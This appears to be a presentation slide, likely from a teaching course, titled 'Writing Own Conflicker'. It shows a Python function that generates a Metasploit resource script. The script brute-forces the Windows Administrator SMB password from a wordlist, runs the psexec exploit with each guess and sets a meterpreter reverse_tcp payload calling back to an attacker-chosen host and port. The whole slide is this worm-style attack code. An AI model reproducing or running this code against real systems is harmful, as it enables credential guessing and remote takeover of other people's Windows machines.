

# Writing Own Conflicker
def smb_brute(config_file, host, passwd_file, lhost, lport):
    username = 'Administrator'
    with open(passwd_file) as file:
        for password in file.readlines():
            password = password.strip('\n').strip('\r')
            config_file.write('use exploit/windows/smb/psexec\n')
            config_file.write(f'set SMBUser {str(username)}\n')
            config_file.write(f'set SMBPass {str(password)}\n')
            config_file.write(f'set RHOST  {str(host)}\n')
            config_file.write('set payload windows/meterpreter/reverse_tcp\n')
            config_file.write(f'set LPORT {str(lport)}\n')
            config_file.write(f'set LHOST {lhost}\n')
            config_file.write('exploit -j -z\n')